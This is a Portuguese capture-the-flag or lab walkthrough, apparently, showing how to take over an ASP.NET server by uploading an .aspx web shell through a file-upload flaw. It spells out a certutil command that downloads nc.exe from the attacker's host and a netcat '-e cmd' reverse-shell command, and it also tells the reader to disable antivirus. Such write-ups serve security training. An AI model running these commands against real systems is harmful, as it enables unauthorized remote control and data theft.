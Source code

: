 
# Depois de levantar informações específicas como o lugar onde tem uma falha para upar arquivos e deletar, o lugar onde esses arquivos ficam armazenados e ainda conseguir acessar ele.

## Resumindo: tudo favorável para subir o shell.

## Contexto para subir o shell:
Sabendo que a tecnologia do site é ASP.NET, podemos procurar um Shell que seja `.ASPNET.aspx`, upar no servidor e acessar ele para injetar comandos.

## 1️⃣ - Procurar no Google o Shell: `github: shell for ASP.aspx`  
## 2️⃣ - Desligar o antivírus do computador.  
![image](https://github.com/user-attachments/assets/d7a9b6dd-d1a3-463e-a716-488dfa836c1a)

## 3️⃣ - Salvar esse shell no arquivo `.aspx`.  
![image](https://github.com/user-attachments/assets/bf04650c-c0af-4cfc-81c8-9d19ef13cf80)

## 💻 Com ele em mãos, é só subir no servidor e acessar.

Acessando o local que descobrimos no DIRSEARCH que é o `magnam` (faz o trabalho do banco de dados).  
![image](https://github.com/user-attachments/assets/b4f7bf34-f8f4-40a1-b90b-32065c645192)

## ⬆️ Upando arquivo:  
![image](https://github.com/user-attachments/assets/f4923442-491e-49ad-9738-48ca914b4726)

## ✅ Arquivo UPADO, só acessar agora:  
![image](https://github.com/user-attachments/assets/0afbee35-4be9-4f1b-acad-2c5cac33dce3)

## 🔎 Acessando o arquivo:  
![image](https://github.com/user-attachments/assets/634bf72b-4d67-446c-8acc-9bc82da34bbb)

## ⚠️ `shell.aspx` subiu, porém você ainda não tem controle total para navegar nos diretórios e fazer uma enumeração de arquivos.

## 💡 Próximo passo:  
- Baixar o `nc.exe`.
- Colocar em uma pasta no seu próprio Windows.
- Instalar o Python.
- Colocar o arquivo `nc.exe` lá dentro.
- Iniciar o servidor Python com o `nc.exe` disponível para download.  
![image](https://github.com/user-attachments/assets/0b399e9c-440c-48b4-b4c5-8434dad98986)

## 📂 Coloquei em uma pasta com o nome "Nova Pasta" e iniciei o servidor Python pelo CMD do Windows.  
![image](https://github.com/user-attachments/assets/919c4e88-32e4-4459-adcb-700e80e462e0)

## 📥 Agora para baixar usando o shell que subi, use o comando:

```
certutil -urlcache -split -f http://192.168.100.168/nc.exe c:\users\public\nc.exe

O Certutil serve para baixar arquivos no Windows. Como está em um servidor HTTP,
basta informar o IP do seu PC e o nome do arquivo para ele salvar no `users/public`
com o nome `nc.exe`.
```

## ✅ Depois de rodar o comando, o sistema vai confirmar que deu sucesso:  
![image](https://github.com/user-attachments/assets/20dfd46a-d056-4dd6-ad33-0ae350bcd4a4)

## 📁 Agora é só verificar se ele realmente foi baixado na pasta pública:  
![image](https://github.com/user-attachments/assets/7a58ca23-e926-482a-bac3-34088934c625)

## 🔊 Arquivo upado, precisamos acessar a shell do nosso Windows. Coloque o `nc` para escutar na porta `4444`:  
![image](https://github.com/user-attachments/assets/a5debaf5-4d6b-424a-aa99-a6b3c91a7d13)

## ⚡ Porta escutando, basta executar o comando:

```
c:\users\public\nc.exe 192.168.100.168 4444 -e cmd

Esse comando executa o `nc.exe`,
passando o IP e a porta para conectar e o `-e` para executar o `cmd` do Windows.
```

## 📡 Após executar o comando, a porta que está escutando recebe o `cmd`:  
![image](https://github.com/user-attachments/assets/c7eeac35-cce7-4d21-9c70-6cfaa5b68f9b)

## 💻 Agora é só fazer a enumeração de arquivos e encontrar a flag do arquivo sensível:  
![image](https://github.com/user-attachments/assets/e768c7eb-f61c-4241-8d7e-e2997555c53c)

## 📦 Arquivo sensível encontrado:  
![image](https://github.com/user-attachments/assets/12899b1c-0cff-4350-b986-3f8b8d5d0c39) 
![image](https://github.com/user-attachments/assets/822f7405-3985-4a8a-80b7-05fbe0a33b31)
